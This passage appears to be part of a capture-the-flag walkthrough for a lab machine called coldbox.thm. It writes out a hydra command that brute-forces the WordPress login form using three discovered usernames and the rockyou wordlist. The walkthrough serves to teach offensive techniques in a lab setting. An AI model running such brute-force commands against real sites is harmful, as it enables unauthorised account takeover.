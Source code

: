 <figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

